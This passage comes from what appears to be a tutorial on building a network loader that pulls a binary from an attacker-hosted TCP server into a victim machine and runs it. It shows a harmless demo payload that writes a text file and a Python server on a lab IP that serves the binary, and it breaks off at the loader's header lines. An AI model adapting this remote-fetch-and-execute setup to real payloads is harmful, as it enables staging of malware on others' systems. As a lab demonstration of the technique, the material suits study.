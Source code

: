 To simulate this, I've created a pre-setup with **a server that hosts a malicious binary** and victim's system where we have the `loader.o` present.

Without further ado, let's get things prepared for out test. We need 3 things:
1. loader binary (on victim's machine)
2. malicious binary (on attacker's machine)
3. tcp socket server to host malicious binary (on attacker's machine)

I started out with a (not so) malicious binary, which simply creates a plain-text file when executed.

Source Code: `malicious_program.c`

```c
#include <stdio.h>

int main()
{
    char* data = "This malicious program wishes you to have a good day!!";
    FILE* fPtr = fopen("NOTICE_for_U.txt", "w");
    if(!fPtr) return 1;
    fputs(data, fPtr);
    fclose(fPtr);
    return 0;
}
```

Compile it -> `gcc malicious_program.c -o malicious_program.o`

Next, I wrote a small python tcp socket server that will host the `malicious_program.o` binary.

Source Code: `python_server.py`
```python
# Read binary
with open("malicious_program.o", "rb") as f:
    data = f.read()
print(len(data))

# Host it on 192.168.56.56:1234
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('192.168.56.56', 1234))
s.listen(1)

conn, addr = s.accept()
print(conn, addr)   # Prints the incoming Connection details
conn.sendall(data)
conn.close()
```

Finally, we modify the previous local binary loader code to read from connected socket instead of a local binary.

Source code: `network_loader.c`
```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <errno.h>
#include <string.h>


#define _GNU_SOURCE         /* See feature_test_macros(7) */
#define BUFF_SIZE 1024
```
